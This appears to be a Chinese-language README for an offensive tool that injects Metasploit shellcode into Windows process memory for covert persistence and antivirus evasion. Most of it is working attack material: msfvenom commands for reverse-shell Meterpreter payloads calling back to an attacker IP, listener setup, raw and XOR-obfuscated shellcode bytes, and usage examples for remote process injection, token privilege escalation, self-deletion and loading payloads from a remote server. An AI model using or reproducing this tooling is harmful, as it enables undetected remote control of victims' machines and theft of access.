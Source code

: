 # Metasploit 本地ShellCode注入工具

<br>

一款本地`ShellCode`后门注入工具，工具主要用于在后渗透阶段使用，可将后门直接注入到特定进程内存中而不会在磁盘中留下任何痕迹，注入成功后`Metasploit`即可获取控制权，只要对端不关机则权限会一直维持，由于内存注入无对应磁盘文件，所以也不会触发杀软报毒。

首先需要通过`Metasploit`工具生成一个有效载荷，如下是32位与64位载荷生成命令。
```BASH
32位载荷生成
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c

64位载荷生成
[root@lyshark ~]# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置也分为`32`位与`6`4位，使用工具时需要与载荷的位数相对应。
```BASH
32位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit

64位侦听器配置
msf6 > use exploit/multi/handler
msf6 > set payload windows/x64/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit
```

<br>

 - 工具参数列表预览
```C
Shell> InjectShellCode32.exe
  ____  _          _ _   ___        _           _
/ ___|| |__   ___| | | |_ _|_ __  (_) ___  ___| |_
\___ \| '_ \ / _ \ | |  | || '_ \ | |/ _ \/ __| __|
 ___) | | | |  __/ | |  | || | | || |  __/ (__| |_
|____/|_| |_|\___|_|_| |___|_| |_|/ |\___|\___|\__|
                                |__/

Usage: ShellCode 远程线程注入器
E-mail: me@lyshark.com

Options:
         --show              显示当前所有可注入进程
         --promote           尝试提升自身进程权限
         --delself           从系统中删除自身痕迹

 Format:
         --Format            将字节数组格式化为一行并打印
         --FormatFile        将字节数组格式化并写出到文件
         --Xor               将文本中压缩后的字节数组进行异或并输出
         --Xchg              将压缩后的字符串转为字节数组格式
         --XorArray          将字节数组加密/解密为字节数组格式

 Inject:
         --InjectSelfShell   注入字符串到自身进程并运行
         --InjectArrayByte   注入字节数组到自身进程并运行
         --FileInjectShell   从文件中读入字符串并注入运行
         --InjectProcShell   注入字符串到远程进程并运行
         --InjectWebShell    从远程加载字符串并注入自身进程

 Encode:
         --EncodeInFile      从文件读入加密字符串并执行反弹
         --EncodePidInFile   注入加密后的字符串到远程进程中
```

<br>

 - 列举出目前系统中支持注入的进程
```C
InjectShellCode32.exe --show

[*] x32 进程PID =>      4        进程名 => System
[*] x32 进程PID =>    124        进程名 => Registry
[*] x32 进程PID =>    588        进程名 => smss.exe
[*] x32 进程PID =>    836        进程名 => csrss.exe
[*] x32 进程PID =>    940        进程名 => wininit.exe
[*] x32 进程PID =>    948        进程名 => csrss.exe
[*] x32 进程PID =>   1012        进程名 => services.exe
```

 - 尝试使用令牌提权
```C
InjectShellCode32.exe --promote

[+] 获取自身Token
[+] 查询进程特权
[*] 已提升为管理员
```

 - 删除自身程序
```C
InjectShellCode32.exe --delself

[*] 自身已清除
```

 - 将攻击载荷格式化为一行纯字符串
```C
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

InjectShellCode32.exe Format --path d://shellcode.txt

fce88f0000006031d289e5648b52308b520c8b52140fb74a268b722831ff31c0ac3c617c022c20c1cf0d01...
```

 - 将攻击载荷格式化为一行并写出到文本
```C
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

InjectShellCode32.exe FormatFile --path d://shellcode.txt --output d://output_shellcode.txt
[+] 已储存 => d://output_shellcode.txt
```

 - 将一行攻击载荷进行异或处理
```C
InjectShellCode32.exe Xor --path d://output_shellcode.txt --passwd lyshark

% &{{%ssssssuspr'q{z&vuw{!vqps{!vqs {!vqrws%!tw"qu{!tqq{pr%%pr s" p urtwst{%s!v"qvuu"ssvp%%'v
```

 - 将一段压缩载荷转换成字节数组
```C
InjectShellCode32.exe Xchg --input d://output_shellcode.txt --output d://array.txt
[+] 字节已转为双字节
[*] 已写出ShellCode列表 => d://array.txt

"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
```

 - 对字节数组进行异或处理
```C
"\xfc\xe8\x8f\x00\x00\x00\x60\x31\xd2\x89\xe5\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x0f\xb7\x4a\x26\x8b\x72\x28\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\x49"
"\x75\xef\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78"
"\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";

InjectShellCode32.exe XorArray --path d://array.txt --passwd lyshark

unsigned char ShellCode[] =
"\xbf\xab\xcc\x43\x43\x43\x23\x72\x91\xca\xa6\x27\xc8\x11\x73\xc8"
"\x11\x4f\xc8\x11\x57\x4c\xf4\x9\x65\xc8\x31\x6b\x72\xbc\x72"
"\x83\xef\x7f\x22\x3f\x41\x6f\x63\x82\x8c\x4e\x42\x84\xa\x36"
"\xac\x11\x14\xc8\x11\x53\xc8\x1\x7f\x42\x93\xc8\x3\x3b\xb3"
"\xf6\xe1\x15\x29\x43\x10\xbc\x96";
```









**将攻击载荷注入自身反弹:** 将一段压缩过的shellcode注入到自身进程并反弹权限。
```
C:\Users\admin\Desktop> sc32.exe InjectSelfShell --shellcode fce88f0000006031d2648b52308b520c***
```

**注入字节数组到自身进程:** 由于字节数组无法直接命令行方式传递，所以只能在文件中获取并压缩解码反弹。
```
C:\Users\admin\Desktop> sc32.exe InjectArrayByte --path d://shellcode.txt
[+] 解码地址: 19db64
```

**从文件中读入并注入:** 从文件中读入一段已经压缩过的shellcode并执行反弹。
```
C:\Users\admin\Desktop> sc32.exe FileInjectShell --path d://format.txt
```

**注入攻击载荷到远程进程:** 该功能主要用于将代码注入到远程进程中，此处参数已经规范化。
```
C:\Users\admin\Desktop> sc32.exe InjectProcShell --pid 17948 --shellcode fce88f0000****
```

**从远程加载载荷并注入:** 从远程Web服务器上获取到需要注入的代码，远程服务器保存一行格式字符串即可。
```
C:\Users\admin\Desktop> sc32.exe InjectWebShell --address 127.0.0.1 --payload shellcode.raw
```

**直接运行加密的攻击载荷:** 加密模块可以直接运行被加密过后的shellcode并反弹，注入时需要传递解码密码。
```
C:\Users\admin\Desktop> sc32.exe EncodeInFile --path d://encode.txt --passwd lyshark
```

**加密注入远程进程反弹:** 直接注入加密后的代码到远程进程中，实现方式如上。
```
C:\Users\admin\Desktop> sc32.exe EncodePidInFile --pid 17480 --path d://encode.txt --passwd lyshark
```
